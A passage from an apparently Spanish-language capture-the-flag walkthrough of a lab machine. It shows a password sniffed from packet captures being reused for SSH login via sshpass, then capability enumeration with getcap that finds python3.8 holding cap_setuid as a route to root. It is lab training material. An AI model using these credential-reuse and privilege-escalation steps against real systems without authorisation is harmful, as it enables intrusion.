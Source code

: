### Privesc

Entre los paquetes podemos destacar un inicio de sesión por ssh del usuario nathan, podemos ver su contraseña "Buck3tH4TF0RM3!" Vamos a probar las credenciales para el SSH y en caso de que no sirvan, veremos el FTP.

```bash
❯ sshpass -p 'Buck3tH4TF0RM3!' ssh nathan@10.10.10.245
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar  7 19:53:19 UTC 2023

  System load:           0.0
  Usage of /:            36.6% of 8.73GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             223
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb9:5c45

  => There are 3 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$
```

Nos hemos conectado con éxito. Ahora vamos  a buscar la forma de escalar privilegios, vamos a ver las capabilites disponibles:

```bash
nathan@cap:~$ getcap -r / 2>/dev/null 
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$ 
```
